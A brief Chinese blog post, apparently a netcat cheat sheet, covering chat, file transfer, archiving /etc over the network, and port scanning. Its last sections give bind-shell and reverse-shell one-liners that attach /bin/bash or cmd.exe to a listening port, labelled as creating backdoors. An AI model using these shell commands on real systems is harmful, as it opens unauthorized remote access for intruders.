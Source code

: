 # nc使用 - Emmoblin Blog

Chat
```
# 发送端
nc -l 3333
# 接受端
nc 127.0.0.1 3333
```

传送文件
```
# 发送端  
`cat backup.iso | nc -l 3333`  
# 接收端  
`nc 192.168.0.1 3333 > backup.iso`  
```

  
显示传送进度，可以使用管道监控,pv命令  
```
`cat backup.iso | pv -b | nc -l 3333`  
`nc 192.168.0.1 3333 | pv -b > backup.iso`  
```

  
本地打包文件，传送到远端  
```
`tar -czf - /etc/ | nc -l 3333`  
`nc 192.168.0.1 3333 | pv -b > mybackup.tar.gz`  
```

端口扫描
```
扫描端口，并返回相关信息
nc -z 192.168.0.1 80-90
```

如何正确的加密聊天
```
nc -l 3333
ssh  yantze@192.168.2.38 sleep 1; nc 127.0.0.1 3333
```

如何正确的创建后门
```
nc -l 3333 -e /bin/bash
nc -l 3333 -e cmd.exe
nc 127.0.0.1 3333
```

如何逆向后门
```
nc -l 3333
nc 127.0.0.1 3333 -e /bin/bash
```

## 资料
- https://www.sans.org/security-resources/sec560/netcat_cheat_sheet_v1.pdf
- http://www.g-loaded.eu/2006/11/06/netcat-a-couple-of-useful-examples/
- https://dragula.viettug.org/blogs/263.html
